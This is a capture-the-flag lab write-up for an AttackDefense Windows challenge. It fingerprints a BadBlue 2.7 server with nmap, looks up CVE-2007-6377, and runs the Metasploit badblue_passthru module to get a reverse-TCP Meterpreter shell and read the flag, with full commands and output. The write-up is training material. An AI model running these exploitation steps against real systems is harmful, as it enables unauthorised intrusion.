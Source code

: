 # Windows: Easy File Sharing Server

### Overview

> A Kali GUI machine and a target machine running a vulnerable easy file sharing server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). &#x20;
>
> Your task is to fingerprint the application using the tools available on the Kali machine and then exploit the application using the appropriate Metasploit module.
>
> **Objective:**Exploit the application and retrieve the flag!
>
> **Instructions:**\* Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y. \* The IP address of the target machine is mentioned in the file “/root/Desktop/target” \* Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1



> 🔬 [Windows: Easy File Sharing Server](https://attackdefense.com/challengedetails?cid=1944)
>
> * Target IP: `10.0.31.174`
> * Fingerprint the application and exploit the found vulnerability

```bash
root@attackdefense:~# nmap -sV 10.0.31.174
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-28 16:36 IST
Nmap scan report for 10.0.31.174
Host is up (0.0021s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               BadBlue httpd 2.7
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.39 seconds
```

* Research the vulnerability of `BadBlue httpd 2.7` using various tools:
  * Google it
  * [NVD - CVE-2007-6377](https://nvd.nist.gov/vuln/detail/CVE-2007-6377)
  * [exploit-db.com](https://www.exploit-db.com/)
  * [cvedetails.com - CVE-2007-6377](https://www.cvedetails.com/cve/CVE-2007-6377/)

> _Stack-based buffer overflow in the PassThru functionality in ext.dll in BadBlue 2.72b and earlier allows remote attackers to execute arbitrary code via a long query string._

* Search for exploits from [exploit-db.com](https://www.exploit-db.com/exploits/16806) or using a command line tool such as **`searchsploit`**



### exploitdb

<figure><img src="../../../../.gitbook/assets/image (89).png" alt=""><figcaption><p> </p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption><p>exploitdb badblue 2.7</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (92).png" alt=""><figcaption><p>script source code</p></figcaption></figure>



### searchsploit

**`searchsploit`** - _a command line search tool for Exploit-DB_. A copy of Exploit Database can be used offline.

<figure><img src="../../../../.gitbook/assets/image (90).png" alt=""><figcaption><p>searchsploit badblue 2.7</p></figcaption></figure>

```bash
root@attackdefense:~# man searchsploit
root@attackdefense:~# searchsploit badblue 2.7
-------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                        |  Path
                                                                                      | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------- ----------------------------------------
BadBlue 2.72 - PassThru Remote Buffer Overflow                                        | exploits/windows/remote/4784.pl
BadBlue 2.72b - Multiple Vulnerabilities                                              | exploits/windows/remote/4715.txt
BadBlue 2.72b - PassThru Buffer Overflow (Metasploit)                                 | exploits/windows/remote/16806.rb
Working Resources BadBlue 1.2.7 - Denial of Service                                   | exploits/windows/dos/20641.txt
Working Resources BadBlue 1.2.7 - Full Path Disclosure                                | exploits/windows/remote/20640.txt
-------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```

* Use Metasploit to exploit the target using the [PassThru Buffer Overflow module](https://www.rapid7.com/db/modules/exploit/windows/http/badblue\_passthru/)
  * _This module exploits a stack buffer overflow in the PassThru functionality in ext.dll in BadBlue 2.72b and earlier._

> ❗ **Before running an exploit, ALWAYS check its** [**Source Code**](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/http/badblue\_passthru.rb) to understand what it is doing❗

```bash
msf5 > use exploit/windows/
Display all 1082 possibilities? (y or n)
msf5 > use exploit/windows/http/badblue_passthru 
msf5 exploit(windows/http/badblue_passthru) > options

Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   BadBlue EE 2.7 Universal


msf5 exploit(windows/http/badblue_passthru) > set RHOSTS 10.0.31.174
RHOSTS => 10.0.31.174
msf5 exploit(windows/http/badblue_passthru) > exploit

[*] Started reverse TCP handler on 10.10.16.3:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (180291 bytes) to 10.0.31.174
[*] Meterpreter session 1 opened (10.10.16.3:4444 -> 10.0.31.174:51636) at 2024-06-28 16:50:45 +0530

meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

> Use [meterpreter](https://www.offsec.com/metasploit-unleashed/about-meterpreter/) commands to find the flag

```bash
meterpreter > pwd
C:\Program Files (x86)\BadBlue\EE

meterpreter > shell
Process 2456 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.


C:\Program Files (x86)\BadBlue\EE>cd /
cd /

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of C:\

09/16/2020  09:01 AM                32 flag.txt
08/22/2013  03:52 PM    <DIR>          PerfLogs
08/12/2020  04:13 AM    <DIR>          Program Files
09/11/2020  08:17 AM    <DIR>          Program Files (x86)
09/10/2020  09:50 AM    <DIR>          Users
06/28/2024  11:04 AM    <DIR>          Windows
               1 File(s)             32 bytes
               5 Dir(s)   9,173,471,232 bytes free

C:\>cat flag.txt
cat flag.txt
'cat' is not recognized as an internal or external command,
operable program or batch file.

C:\>type flag.txt
type flag.txt
70a569da306697d64fc6c19afea37d94
```

<details>

<summary>Flag</summary>

`70a569da306697d64fc6c19afea37d94`

</details>









